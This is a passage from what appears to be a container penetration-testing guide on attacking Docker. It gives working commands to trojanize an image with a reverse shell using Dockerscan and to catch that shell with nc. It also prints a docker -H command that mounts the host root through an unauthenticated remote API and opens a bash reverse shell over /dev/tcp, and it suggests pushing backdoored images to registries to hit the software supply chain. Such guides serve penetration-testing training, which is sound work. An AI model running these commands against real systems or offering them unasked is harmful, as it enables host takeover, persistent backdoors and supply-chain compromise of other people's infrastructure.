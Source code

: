 Organisations should restrict images to secure trusted private repositories, where images are scanned for vulnerabilties before being stored. However it is worth trying to pull an image from docker hub to check if access is properly locked down. If you're able to pull from Docker Hub you can upload an arbitrary image containing vulnerabilities to exploit and attempt to breakout of the container.

An intentionally vulnerable image can be found at https://hub.docker.com/r/vulnerables/cve-2014-6271 this image is vulnerable to shellshock and can be used as a POC to show how exploiting an a vulnerability can provide an initial foothold into a container via RCE. **Note this is a vulnerable image and should only be used for training purposes**

## Backdooring Docker Images
It is possible to backdoor images manually, however The `Dockerscan` tool makes it easy to inject a reverse shell into a docker image. This docker image will still have the tag `latest` and the creation date will not be modified - the only way to detect it would be to inspect the image or diff the hash.

Install and setup dockerscan:
```
git clone https://github.com/cr0hn/dockerscan.git
Python install setup.py
export LC_ALL=C.UTF-8
export LANG=C.UTF-8
```

Example useage:

```
docker pull alpine # pull an image if not local
docker save alpine -o alpine-original # save the docker file 
dockerscan image modify trojanize alpine-original -l 172.17.0.1 -p 9001 -o alpine-trojan # backdoor image
docker load -i alpine-trojan.tar # load the image into docker
```
Now that the trojanized image is imported to docker, if the victim runs a docker container from it the reverse shell can be captured with nc e.g -  `nc -nlvp 9001`

To weaponise this it may be possible to push the container to an image repository or abuse an insecure image registry in an effort to impact the software supply chain and target victim cd users.

## Docker Daemon Misconfigurations
The daemon listens on unix:///var/run/docker.sock but you can bind Docker to another host/port or Unix socket. The daemon can also be configured for remote access, by default the remote API listens on port 2375 and 2376 for unencrypted and encrypted communication. Also by default, Dockerd does not require authentication allowing an attacker to start a container and get a shell.

The following command will start a shell mounting the root directory of the host to the container, from here it would be possible to write to /etc/shadow or add an SSH key:
```
docker -H <remoteapi>:2375 run — rm -v /:/mnt <image> chroot /mnt /bin/bash -c “bash -i >& /dev/tcp/192.168.1.130/4444 0>&1
```
    
It would also be possible to start a privileged container - see [Abusing Linux Capabilities](#abusing-linux-capabilities)
